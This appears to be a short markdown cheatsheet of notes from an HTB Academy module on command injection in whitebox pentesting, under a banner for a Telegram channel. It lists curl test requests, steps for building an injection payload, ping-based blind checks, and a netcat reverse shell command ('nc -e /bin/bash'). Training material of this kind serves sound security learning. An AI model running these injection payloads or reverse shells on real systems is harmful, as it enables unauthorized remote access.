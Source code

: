 Thanks To:

           _____      _               ____              _     _____       
    ____  / ____|    | |             |  _ \            | |   / ____|      
   / __ \| |    _   _| |__   ___ _ __| |_) | __ _ _ __ | | _| (___   __ _ 
  / / _` | |   | | | | '_ \ / _ \ '__|  _ < / _` | '_ \| |/ /\___ \ / _` |
 | | (_| | |___| |_| | |_) |  __/ |  | |_) | (_| | | | |   < ____) | (_| |
  \ \__,_|\_____\__, |_.__/ \___|_|  |____/ \__,_|_| |_|_|\_\_____/ \__,_|
   \____/        __/ |                                                    
                |___/                                                     


Find Us in : https://t.me/CyberBankSa

# Whitebox Pentesting 101 - Command Injection

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

### Cheatsheet

#### Local Debugging

| **Command**   | **Description**   |
| --------------|-------------------|
| `node server.js` | run server locally |
| `curl http://127.0.0.1:21440/admin -X POST -d '{}'` | curl POST request |
| `curl http://127.0.0.1:21440/admin -X POST -d '{"key":"this is just a test!"}'` | curl POST request with json data |

#### Exploitation

| **Code Injection Steps** |
| --------------|
| 1. Prepare the Payload |
| 2. Comment Out the Rest |
| 3. Even Quotes/Parentheses |
| 4. Escaping/Encoding Special Characters |
| 5. Examine Payload |

| **Command**   | **Description**   |
| --------------|-------------------|
| `jq -aR .` | Escape json input |
| `sudo tcpdump -i lo icmp` | Blind verification: Listen for pings |
| `ping -c 3 127.0.0.1` | Blind verification: ping injection test |
| `nc -lvnp 1234` | Remote Shell: start netcat listener |
| `nc -e /bin/bash 127.0.0.1 1234` | Remote Shell: send basic shell |

#### Helpful Websites

| **Website** |
| ----------------------------------|
| [Prettier](https://prettier.io/playground/) |
| [Url Encode/Decode](https://www.urlencoder.org/) |
| [Reverse Shells - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) |